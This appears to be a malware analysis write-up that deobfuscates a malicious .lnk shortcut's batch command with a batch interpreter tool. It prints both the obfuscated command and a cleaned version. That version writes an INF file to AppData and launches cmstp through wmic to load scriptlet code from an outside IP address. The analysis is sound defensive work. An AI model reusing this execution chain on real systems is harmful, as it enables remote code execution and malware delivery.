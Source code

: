 the `.lnk` file has a `cmd` command but it looks encoded/obfuscated. Let's work out a way to extract the command.

Using [Batch Interpreter](https://raw.githubusercontent.com/DissectMalware/batch_deobfuscator/master/batch_interpreter.py), we can see the command that the attacker is trying to execute:

```batch
(.env) ali@ali-pc > python batch_interpreter.py
Please enter an obfuscated batch command:
/v /c set "UoglocMF5002=items" && call set "UoglocMF94812=%UoglocMF5002:~4,1%" && !UoglocMF94812!et "UoglocMF5127=a" && !UoglocMF94812!et "UoglocMF6603=t" && !UoglocMF94812!et "UoglocMF06364=d" && !UoglocMF94812!et "UoglocMF9305=c" && call !UoglocMF94812!et "UoglocMF21627=%ran!UoglocMF06364!om%.inf" && call !UoglocMF94812!et "UoglocMF6838=%app!UoglocMF06364!ata%\Micro!UoglocMF94812!oft\!UoglocMF21627!" && !UoglocMF94812!et "UoglocMF14637=." && !UoglocMF94812!et "UoglocMF15608="^" && (for %l in ("[ver!UoglocMF94812!ion]" "!UoglocMF94812!ign!UoglocMF5127!ture=$Window!UoglocMF94812! NT$" "[!UoglocMF06364!e!UoglocMF94812!tinationdirs]" "2D0D=01" "[!UoglocMF06364!efaultin!UoglocMF94812!tall_singleu!UoglocMF94812!er]" "UnRegis!UoglocMF6603!erOCXs=F251A5" "!UoglocMF06364!elfiles=2D0D" "[F251A5]" "%11%\%UoglocMF7741%crO%UoglocMF37180%j,NI,%UoglocMF2085%%UoglocMF5568%%UoglocMF5568%p%UoglocMF54670%%UoglocMF92584%%UoglocMF92584%209!UoglocMF14637!%UoglocMF0342%141!UoglocMF14637!%UoglocMF0342%61!UoglocMF14637!%UoglocMF0342%11/update!UoglocMF14637!%UoglocMF0342%txt" "[2D0D]" "!UoglocMF21627!" "[!UoglocMF94812!!UoglocMF6603!rings]" "UoglocMF5568=t" "UoglocMF2085=h" "UoglocMF54670=:" "UoglocMF7741=s" "UoglocMF92584=/" "UoglocMF37180=b" "UoglocMF0342=" "!UoglocMF94812!ervicen!UoglocMF5127!me=' '" "!UoglocMF94812!hortsvcn!UoglocMF5127!me=' '") do @e!UoglocMF9305!ho %~l)>"!UoglocMF6838!"&& !UoglocMF94812!t!UoglocMF5127!rt "" /MIN wmi!UoglocMF9305! proce!UoglocMF94812!s call !UoglocMF9305!rea!UoglocMF6603!e "cm!UoglocMF94812!!UoglocMF6603!p /ns /!UoglocMF94812! /su !UoglocMF6838!"

/v /c set "UoglocMF5002=items"
call set "UoglocMF94812=s"
set "UoglocMF5127=a"
set "UoglocMF6603=t"
set "UoglocMF06364=d"
set "UoglocMF9305=c"
call set "UoglocMF21627=.inf"
call set "UoglocMF6838=\Microsoft\.inf"
set "UoglocMF14637=."
set "UoglocMF15608=""

(for 11UoglocMF7741%cro%UoglocMF37180%j,ni,%UoglocMF2085%%UoglocMF5568%%uoglocmf5568%p%uoglocmf54670%%uoglocmf92584%%uoglocmf92584%209.%uoglocmf0342%141.%uoglocmf0342%61.%uoglocmf0342%11/update.%uoglocmf0342%txt" "[2D0D]" ".inf" "[strings]" "UoglocMF5568=t" "UoglocMF2085=h" "UoglocMF54670=:" "UoglocMF7741=s" "UoglocMF92584=/" "UoglocMF37180=b" "UoglocMF0342=" "servicename=' '" "shortsvcname=' '") do @echo %~l)>"\Microsoft\.inf"

start "" /MIN wmic process call create "cmstp /ns /s /su \Microsoft\.inf"
```

Looks like the automated string gave us some clues but didn't do the job very well especially in the "for" loop inside the batch script. After manually replacing some strings/variables, this `cmd` showed up:

```batch
/v /c set "UoglocMF14637=." && set "UoglocMF15608="^" && (for %l in ("[version]" "signature=$Windows NT$" "[destinationdirs]" "2D0D=01" "[defaultinstall_singleuser]" "UnRegisterOCXs=F251A5" "delfiles=2D0D" "[F251A5]" "%11%\scrObj,NI,http://209.141.61.11/update.txt" "[2D0D]" "RANDOM.inf" "[strings]" "UoglocMF5568=t" "UoglocMF2085=h" "UoglocMF54670=:" "UoglocMF7741=s" "UoglocMF92584=/" "UoglocMF37180=b" "UoglocMF0342=" "servicename=' '" "shortsvcname=' '") do @echo %~l)>"USER_APP_DATA\Microsoft\RANDOM.inf"&& start "" /MIN wmic process call create "cmstp /ns /s /su USER_APP_DATA\Microsoft\RANDOM.inf"
```
